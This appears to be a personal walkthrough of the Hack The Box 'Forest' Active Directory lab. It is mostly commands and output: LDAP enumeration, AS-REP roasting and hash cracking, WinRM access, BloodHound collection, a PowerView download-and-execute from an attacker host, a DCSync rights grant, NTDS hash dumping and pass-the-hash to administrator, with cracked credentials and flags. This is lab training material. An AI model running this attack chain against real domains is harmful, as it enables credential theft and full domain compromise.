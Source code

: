 ## User
### #WinDAPSearch
```sh
git clone https://github.com/ropnop/windapsearch.git
cd windapsearch
pip install -r requirements.txt
sudo apt-get install python3-ldap 
python3 windapsearch.py --dc-ip 10.129.95.210 -U
```
#### Interesting Fields:
```
cn: Sebastien Caron
userPrincipalName: sebastien@htb.local
cn: Lucinda Berger
userPrincipalName: lucinda@htb.local
cn: Andy Hislip
userPrincipalName: andy@htb.local
cn: Mark Brandt
userPrincipalName: mark@htb.local
cn: Santi Rodriguez
userPrincipalName: santi@htb.local
```
### Impacket list TGTs

Get Users with TGT property "Do not require Kerberos pre-authentication" #impacket-GetNPUsers
```sh
impacket-GetNPUsers 'htb.local/' -dc-ip '10.129.95.210' 
impacket-GetNPUsers 'htb.local/' -dc-ip '10.129.95.210' -request
```
#### Interesting Fields:
```
$krb5asrep$23$svc-alfresco@HTB.LOCAL:77166f2efe63a8b5e124a35ec7d59f99$74f9ea93a2bc00985d5270213c8e77e86b2117e58b74eca721b275288d2aa401ed797f48e78364d102bf53bdee21d6ad1b219d7c8f22ac902a11941b38ab23b60c60b1919da07538588630e3cf1a9a235022f1734854ab180d757cc13d163118174250b985aaf2bbd81639f3c7121697c04f70e119c55cb13c16b902086499d86845aa72143ef6f29633529716f0301af63eabb82d8e19960ef0e0bda10ee53f2da4ea777194e5b056286aecf203bbe52f91126832cea8732af5373aef091852052d317084a5fde22c214d326730647fb93ba09c7375a1066a26ac9c7a38bea66efa662d1c7b
```
### Command
```sh
hashcat forestnopreauth.txt  /home/kali/Downloads/rockyou.txt
```
#### CREDS
```
User:
	svc-alfresco
Password:
	s3rvice
```
### USER PWN:
```sh
evil-winrm -i 10.129.95.210 -u svc-alfresco -p s3rvice
gc C:\Users\svc-alfresco\Desktop\user.txt
```

```
2f36f56384c2218eabf61e225d7584ba
```
## Root
### COMMAND
```sh
git clone https://github.com/BloodHoundAD/SharpHound.git
cd SharpHound
dotnet restore .
dotnet build
cp /home/kali/Desktop/Forest/windapsearch/SharpHound/bin/Debug/net462/SharpHound.exe
```
### WINRM
```winrm
upload SharpHound.exe
.\SharpHound.exe
download 20240520221238_BloodHound.zip
```
### COMMAND
```sh
python3 -m http.server
```
### WINRM Exchange Windows Permissions Privilege Escalation
#PrivilegeEscalation-Windows
#powerview
```winrm
(New-Object System.Net.WebClient).DownloadString('http://10.10.14.5:8000/PowerView.ps1') | IEX
net group "Exchange Windows Permissions" <Created UserName> /add
net localgroup "Remote Management Users" <Created UserName> /add
$password = convertto-securestring '<Created Password>' -AsPlainText -Force
$Cred = new-Object System.Management.Automation.PSCredential('htb\<Created UserName>',$password)
./PowerView.ps1 Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity <Created UserName> -Rights DCSync
```
### Invoke DCSync
```sh
impacket-secretsdump 'jesuschrist:password12345@10.129.95.210' -outputfile idcsynchashes.txt
hashcat dcsynchashes.txt.ntds ~/Downloads/rockyou.txt
```
#### Interesting Fields
```
483d4c70248510d8e0acb6066cd89072:plokmijnuhb
9248997e4ef68ca2bb47ae4e6f128668:s3rvice
```
### ROOT PWN:
```sh
impacket-psexec administrator@10.129.95.210 -hashes "aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6"
type C:\Users\Administrator\Desktop\root.txt
```

```
ed38b9aeadc029f6a4a37c802f5d9dca
```


## Ref
[nirajkharel/AD-Pentesting-Notes (github.com)](https://github.com/nirajkharel/AD-Pentesting-Notes)
[BloodHound with Kali Linux: 101 | Red Team Notes (ired.team)](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-with-bloodhound-on-kali-linux)